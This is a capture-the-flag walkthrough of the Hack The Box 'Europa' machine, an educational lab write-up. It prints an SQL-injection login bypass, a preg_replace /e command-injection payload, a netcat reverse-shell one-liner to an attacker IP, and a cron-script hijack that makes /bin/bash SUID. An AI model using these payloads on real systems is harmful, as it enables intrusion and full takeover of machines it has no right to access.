# [Europa](https://app.hackthebox.com/machines/Europa)

```bash
nmap -p- --min-rate 10000 10.10.10.22 -Pn 
```



After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80,443 10.10.10.22 -Pn  
```




From nmap scan result, I see that ip address is resolved into `europacorp.htb` domain, that's why I add this into `/etc/hosts` file.

I also add  `www.europacorp.htb` and `admin-portal.europacorp.htb` into `/etc/hosts` file.


While I open `admin-portal`, I see authentication(login) system.




Let's inject some `SQLI` payloads to bypass authentication.




I already bypassed authentication by adding below payload to `username` field.
```bash
email=admin%40europacorp.htb';--+-&password=test
```


I am on the Dashboard.



While looking at web application, I see `tools.php` and enter input as shown here.




I guess that there should be `regex` for ip address.

As this `php` application, I search `php` functions which implements `regex`.

That's `preg_replace.php`.


I found this [blog](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4).


Let's inject and see that this worked or not.
```bash
pttern=%2Fx%2Fe&ipaddress=system("id")&text
```




As you `id` command worked, let's inject `reverse shell` payload into here.

```bash
system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.18+1337+>/tmp/f")
```




Hola I got reverse shell from port `1337`.




Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg 
export TERM=xterm
export SHELL=bash
```




For `Privilege Escalation`, I just look at cronjobs by reading `/etc/crontab` file.




I see `clearlogs` binary, let's analyze this by running.




From here, I see that it calls `logcleared.sh` script but it's not valid on our system.

Let's write our malicious script into here which copies `/bin/bash` file and give `SUID` binary to this copied `bash` file.

```bash
echo -e '#!/bin/bash\n\nsudo chmod 4777 /bin/bash' > /var/www/cmd/logcleared.sh
```




Let's execute `clearlogs` binary to call `logcleared.sh` script.




user.txt



root.txt

